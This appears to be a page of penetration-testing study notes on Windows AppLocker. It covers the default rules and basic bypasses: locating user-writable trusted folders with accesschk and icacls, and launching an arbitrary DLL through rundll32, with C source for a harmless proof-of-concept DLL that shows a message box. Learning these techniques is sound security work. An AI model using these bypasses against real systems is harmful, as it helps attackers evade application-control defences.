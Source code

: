 4. Packaged Apps (also known as Universal Windows Platform (UWP) Apps) include applications that can be installed from the Microsoft App store.

Default rules:

- Block all applications except those explicitly allowed.

- Allow all users to run executables in `C:\Program Files`, `C:\Program Files (x86)`, and `C:\Windows` recursively, including executables in all subfolders. This allows basic OS functionality but prevents non-administrative users from writing in these folders due to default access rights.

- Allows members of the administrative group to run any executables they desire.

## Basic Bypasses

### Trusted Folders

Locate user-writable folders

```bat
accesschk.exe "student" C:\Windows -wus
```

```bat
icacls.exe C:\Windows\Tasks
```

### Bypass With DLLs

The default ruleset doesn't protect against loading arbitrary DLLs

```bat
rundll32 C:\Tools\TestDll.dll,run
```

`TestDll.dll`

```C
#include "stdafx.h"
#include <Windows.h>

BOOL APIENTRY DllMain( HMODULE hModule,
                       DWORD  ul_reason_for_call,
                       LPVOID lpReserved
                     )
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}

extern "C" __declspec(dllexport) void run()
{
	MessageBoxA(NULL, "Execution happened", "Bypass", MB_OK);
}
```

